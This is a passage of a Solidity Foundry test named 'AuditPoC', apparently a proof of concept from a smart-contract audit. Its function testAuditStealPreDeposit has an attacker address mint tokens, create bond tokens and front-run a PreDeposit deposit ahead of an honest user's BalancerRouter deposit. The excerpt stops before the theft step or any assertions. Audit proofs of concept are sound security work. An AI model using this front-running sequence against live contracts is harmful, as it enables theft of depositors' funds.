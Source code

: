 ```solidity
contract AuditPoC is Test {
    uint256 constant BTC_RESERVE_CAP = 10e18; // 10 balBTC

    Token private wBTC; Token private cbBTC; Token private balBTC;
    Token private wETH; Token private wstETH; Token private balETH;
    Token private USDC;

    PoolFactory private poolFactory;
    OracleFeeds private oracleFeeds;
    PreDeposit private btcPreDeposit;
    BalancerRouter private btcBalancerRouter;
    Pool private ethPool;

    PoolFactory.PoolParams private btcParams;
    PoolFactory.PoolParams private ethParams;

    address private governance = address(0x1000);
    address private alice = address(0xa11ce);
    address private attacker = address(0xa77a);

    function setUp() public {
        _setupTokens();
        _setupContracts();
    }

    function testAuditStealPreDeposit() public {
        // Preparation: mint 10 balETH and 10 balBTC to attacker
        balETH.mint(attacker, 10e18);
        balBTC.mint(attacker, 10e18);

        // Step 1: The attacker already have created 10 balETH worth of BondTokens on `ethPool`
        vm.startPrank(attacker);
        balETH.approve(address(ethPool), type(uint256).max);
        ethPool.create(Pool.TokenType.BOND, 4.9e18, 147e18); // Deposit 4.9 balETH, receive 147 ETH-BOND
        vm.stopPrank();

        // Step 2: The attacker deposits 9.9 balBTC to PreDeposit contract, this is a front-running of user's transaction that is processed on later phase
        vm.startPrank(attacker);
        balBTC.approve(address(btcPreDeposit), type(uint256).max);
        btcPreDeposit.deposit(9.9e18);
        vm.stopPrank();

        // Step 3: An honest user deposits 5 balBTC through BalancerRouter
        wBTC.mint(alice, 5e8);
        cbBTC.mint(alice, 5e8);

        IAsset[] memory assets = new IAsset[](2);
        assets[0] = IAsset(address(wBTC));
        assets[1] = IAsset(address(cbBTC));

        uint256[] memory amounts = new uint256[](2);
        amounts[0] = 5e8;
        amounts[1] = 5e8;

        vm.startPrank(alice);
        wBTC.approve(address(btcBalancerRouter), type(uint256).max);
        cbBTC.approve(address(btcBalancerRouter), type(uint256).max);
        btcBalancerRouter.joinBalancerAndPredeposit(bytes32(uint256(0x1)), address(btcPreDeposit), assets, amounts, bytes(""));
        vm.stopPrank();

```